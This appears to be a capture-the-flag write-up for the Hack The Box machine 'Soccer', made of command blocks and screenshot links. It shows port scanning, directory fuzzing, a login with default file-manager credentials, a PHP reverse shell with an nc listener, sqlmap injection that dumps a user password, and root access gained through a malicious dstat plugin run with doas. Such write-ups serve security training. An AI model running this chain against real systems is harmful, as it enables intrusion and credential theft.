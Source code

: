 ```
nmap -p- -T5 -Pn 10.10.11.194
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b8a88354-8431-4faf-bed1-9189bef20fd4)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/tiny/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f1f40f57-6fb8-48e4-9629-59bb877e854c)

![image](https://github.com/regarmulia/HTB/assets/33616880/acda7e8e-9e80-4d80-a1a3-333f9f8e4469)

```
google: tiny file manager default credentials
admin/admin@123
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c6bedb07-7a47-436f-942b-15c949de746b)

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
nc -nlvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4b12ad89-0d39-4877-b12f-73dab6bb0ea3)

![image](https://github.com/regarmulia/HTB/assets/33616880/ad22edf8-9aa4-49ea-a9df-ecc608b234d0)

![image](https://github.com/regarmulia/HTB/assets/33616880/b8e4db97-b66e-4138-a1b4-38552e356b67)

```
Sign in
OR 1=1
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 –batch
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump –batch
1324 | player@player.htb | PlayerOftheMatch2022 | player
```
![image](https://github.com/regarmulia/HTB/assets/33616880/27f854e3-b36e-4beb-90a7-708e4bbeeffa)

![image](https://github.com/regarmulia/HTB/assets/33616880/176c97ff-d6f4-4bb5-b65e-0206dd0acaf1)

![image](https://github.com/regarmulia/HTB/assets/33616880/fb5cc7e0-df48-4be9-b984-60361ec55bb6)

```
ssh player@10.10.11.194
find / -type f -perm -4000 2>/dev/null
cat /usr/local/etc/doas.conf
man dstat
ls -ld /usr/local/share/dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat –list
doas /usr/bin/dstat --pwn
```
![image](https://github.com/regarmulia/HTB/assets/33616880/90eed874-4f01-4e17-894d-5755485f29a7)

![image](https://github.com/regarmulia/HTB/assets/33616880/268a22c0-f6ec-4990-bedd-586de1a71a28)

![image](https://github.com/regarmulia/HTB/assets/33616880/ae59afef-26d4-43bf-b25a-b44eeeaaecae)
